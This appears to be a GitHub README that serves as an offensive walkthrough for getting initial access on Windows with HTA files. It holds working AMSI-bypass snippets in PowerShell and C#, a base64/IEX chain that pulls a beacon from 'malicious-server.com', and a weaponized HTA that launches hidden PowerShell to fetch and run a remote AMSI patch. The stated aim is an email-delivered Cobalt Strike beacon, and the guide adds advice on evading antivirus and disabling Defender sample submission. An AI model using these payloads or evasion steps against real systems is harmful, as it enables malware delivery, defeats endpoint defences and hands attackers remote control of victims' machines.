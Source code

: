 # Gaining initial access with HTA
Instruction on gaining initial access using mshta.exe to execute HTA files

## 1. Overview
**Basic HTA Payload**
```html
<html>
  <head><title>Pwned by zagnox</title></head>
  <body>
  <p>Hello World!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "notepad.exe"
  </script>
</html>
```
The payload above will run benign programs such as notepad or calc. If the operator attempts to drop and execute a beacon, it will most likely get **snagged by Windows Defender or other AV solutions**.

Although HTA attacks have been around for 5 years they are still a solid **STAGING** mechanism. In this technique I will explain the steps on how to use HTA files as simple stagers to load scripts from remote servers, patch/crash AMSI (Anti-Malware Scan Interfrace) to evade detection and then execute a web scripted delivery by Cobalt Strike to spawn a beacon.

1. Operator delivers the HTA application via email
2. Victim clicks on the application
3. VBScript runs and pulls malicious AMSI patch from remote server
4. Script launches hidden powershell and patches AMSI
5. Patched AMSI powershell session executes Cobalt-Strike beacon from remote server
6. Establish C2 communication with teamserver

---

## 2. Crafting AMSI patching script
The operator has a couple of options to kill AMSI. The laziest option is to generate the script from [amsi.fail](https://amsi.fail/) collection. This script generator uses random trechniques from a collection of scripts. Although amsi.fail generates unique signatues at runtime for each payload they are sometimes snagged by AV. Test the payload in your lab to make sure you are successfully pathcing AMSI before serving it to your target.

NOTE: It is important to **DISABLE Automatic Sample Submission** while experimenting in you lab. You DO NOT WANT your scripts to be sent to Microsoft sandboxes for further analysis.

The other options to patch AMSI are shown below. The powershell snippets can be tweaked and modified in order to execute and kill AMSI. Remember to use obfuscation techniques to evade defender for the scripts below.
- **Memory Patching (In-Memory AMSI Bypass)**

  By default, AmsiScanBuffer returns a status indicating whether a scan was successful. By forcing it to return AMSI_RESULT_CLEAN, all scripts will be marked as safe.
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
  Get-Field -BindingFlags NonPublic,Static -Name 'amsiInitFailed' |
  Set-Value $true
  ```

- **Overwrite AmsiScanBuffer**

  Overwrite AmsiScanBuffer in memory so it always returns 0 (clean).
  ```powershell
  using System;
  using System.Runtime.InteropServices;
  
  class Program
  {
      [DllImport("kernel32")]
      static extern IntPtr GetModuleHandle(string lpModuleName);
  
      [DllImport("kernel32")]
      static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
  
      [DllImport("kernel32")]
      static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
  
      static void Main()
      {
          IntPtr amsiDll = GetModuleHandle("amsi.dll");
          IntPtr amsiScanBuffer = GetProcAddress(amsiDll, "AmsiScanBuffer");
          
          uint oldProtect;
          VirtualProtect(amsiScanBuffer, 0x0010, 0x40, out oldProtect);
          
          // Patch AmsiScanBuffer to return AMSI_RESULT_CLEAN (0)
          Marshal.WriteByte(amsiScanBuffer, 0xC3); // RET instruction
          
          VirtualProtect(amsiScanBuffer, 0x0010, oldProtect, out oldProtect);
      }
  }
  
- **Hooking AMSI API Calls**

  Instead of patching AMSI in memory, you can hook AmsiScanBuffer and return a clean result.

  ```powershell
  $memory = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(1)
  [System.Runtime.InteropServices.Marshal]::WriteByte($memory, 0xC3) # RET instruction
  [System.Runtime.InteropServices.Marshal]::Copy($memory, 0, [System.Runtime.InteropServices.Marshal]::GetFunctionPointerForDelegate(
    [System.Delegate]::CreateDelegate([System.Func[IntPtr, IntPtr, uint, uint]], $memory)), 1)

  ```


A fairly simple way to chain the commands is to embed the Cobalt Strike web-scripted delivery to execute after the script has been executed:
```powershell
[sYStEm.tEXt.enCOdIng]::unICOdE.GetsTrIng([SystEm.conVERT]::fRoMBaSe64string("base64 encode script here")) | IEX; IEX (curl 'http://malicious-server.com/beacon')
```

## 3. Weaponizing the HTA

Once you have a script that will patch AMSI it is time to weaponize the HTA payload:

```html
<html>
  <head><title>BE CREATIVE</title></head>
  <body>
  <p>Hi! This is an important notification!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "powershell -nop -w -hidden -e <base64 this IEX (curl http://malicious-server.com/patch-amsi.ps1)>"
  </script>
</html>
```
## 

![Patching amsi and executing beacon. AV evaded](https://github.com/user-attachments/assets/e66b2048-0a56-4bdc-ad4d-b434f880fb1f)


![CS Beacon](https://github.com/user-attachments/assets/8a4c873c-2f2c-4fab-8a95-df037a8deac1)

